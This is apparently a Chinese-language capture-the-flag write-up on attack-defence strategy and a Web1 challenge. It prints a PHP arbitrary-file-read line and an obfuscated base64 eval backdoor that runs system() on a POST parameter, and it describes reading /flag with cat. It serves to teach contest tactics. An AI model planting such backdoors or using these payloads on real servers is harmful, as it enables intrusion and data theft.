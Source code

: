 把找到的洞补上。  
把修改后的文件、代码，上传到/tmp目录，再cp到原来的地址。  
（备份的文件不要动！）

#### 0x6、写exp

提前准备好自动提交flag脚本，留空一个攻击模块。  
根据找到的洞，写exp。  
将exp作为攻击模块填入自动提交flag脚本，运行脚本。  

#### 0x7、其他高级策略  

挂waf，上沙盒，防御的同时截取对手的攻击流量，进行分析，尝试复现。 

观察场上攻击记录，推测可能还可以利用的漏洞。

由于flag定时更新，代表着新一轮的攻防的开始，随时做好策略变化的准备。


## 本次比赛题目分析  
### Web1 
#### 比赛开始
先把源码下下来，用来备份，对服务器上waf，进行流量监控  
将粘贴下来的源码放入D盾进行扫描，发现有2个漏洞，   
分别是一句话木马和任意命令执行，一开始我们进行了删除语句处理，  
发现服务器宕机了，于是改变了变量的名字，服务器恢复了。

#### 比赛中
通过流量包发现别人的攻击方式，通过批量化脚本利用别人的漏洞进行攻击，这里利用的漏洞为cat命令，通过读取flag文件进行回显，从而获取flag


#### 漏洞分析
![D盾](https://s2.ax1x.com/2019/10/28/KcvrNQ.png)
`echo file_get_contents($_POST['360']);`
这里是一个任意文件读取的漏洞，可以给360赋值为'/flag',从而读取flag

![扫描](https://s2.ax1x.com/2019/10/28/KgE7PP.png)   
这里的漏洞是从流量包里看出来的  
文件代码为
```
class syste
{ }
$s114514 = new ReflectionClass('syste');
$a = $s114514->getName();
function dedecocodede($str)
{
	return base64_decode($str);
}
@eval(dedecocodede('JGI9JGEuJ20nOyRiKCRfUE9TVFsnY2MnXSk7'));
```
经过base64解密后，这段代码为`$b=$a.'m';$b($_POST['cc']);`
这里也是一个任意命令执行，通过拼凑，拼凑出system('cat /flag')
